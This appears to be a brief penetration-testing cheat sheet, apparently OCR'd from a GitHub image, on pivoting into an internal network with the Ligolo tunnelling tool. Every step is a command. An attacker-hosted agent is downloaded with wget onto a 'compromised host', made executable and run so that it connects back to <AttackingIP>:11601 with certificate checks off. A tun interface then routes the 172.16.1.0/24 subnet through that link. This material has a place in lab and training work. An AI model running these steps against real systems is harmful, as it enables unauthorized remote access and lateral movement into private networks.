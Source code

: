 ## 1. Run Python web server from attacking machine. Host the 'agent.exe/agent' file.
`python3 -m http.server 8000`

## 2. Run from the compromised host.
`wget http://<AttackingIP>:<AttackingPort>/agent`

## 3. Run from your attacking machine.
`sudo ./proxy -selfcert`

## 4. Run from the compromised host. (If compromised host = Linux)
`sudo chmod +x ./agent`
`sudo ./agent -connect <AttackingIP>:11601 -ignore-cert`

If (compromised host = Windows)
`./agent.exe -connect <AttackingIP>:11601 -ignore-cert`

## 5. Run from Ligolo Proxy (From Attacking Machine)
`session`
`1`
`ifconfig`

In the above ifconfig command, copy the IP address of the interface. Let us assume the IP is 172.16.1.100

## 6. Run the following commands on the attacking machine to set up the interface.
`sudo modprobe tun`
`sudo ip tuntap add mode tun dev ligolo`
`sudo ip route add 172.16.1.0/24 dev ligolo`
`ip route list`

## Do you see the Ligolo interface now? If not, repeat the above steps.
